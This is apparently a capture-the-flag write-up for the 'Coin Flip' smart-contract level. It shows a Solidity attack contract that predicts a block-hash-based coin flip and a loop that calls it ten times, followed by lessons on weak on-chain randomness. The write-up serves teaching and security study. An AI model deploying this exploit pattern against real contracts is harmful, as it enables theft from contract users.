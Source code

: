 # Level 3: Coin Flip

## Challenge Overview

The `CoinFlip` challenge demonstrates how on-chain randomness can be exploited.  
The goal is to correctly guess the outcome of a coin flip multiple times in a row.

## Goal

Win the coin flip 10 times consecutively

## Solution

The `CoinFlip` contract relies on block hashes to determine the coin flip outcome:

```solidity
bool side = uint256(blockhash(block.number - 1)) % 2 == 0;
```

Since block hashes are deterministic, you can predict the outcome by replicating the logic off-chain.

### 1. Deploy an attack contract on REMIX IDE (I used Sepolia testnet):

```solidity
interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttack {
    ICoinFlip public target;
    uint256 lastHash;

    constructor(address _target) {
        target = ICoinFlip(_target);
    }

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        bool guess = blockValue % 2 == 0;
        target.flip(guess);
    }
}
```

### 2. Call the `attack` function repeatedly to win 10 flips:

```javascript
for (let i = 0; i < 10; i++) {
    await attack.attack();
}
```

---

## Lessons Learned

- On-chain randomness is not secure because block data is deterministic.
- The ideal practice is to use off-chain oracles like Chainlink VRF for secure randomness.
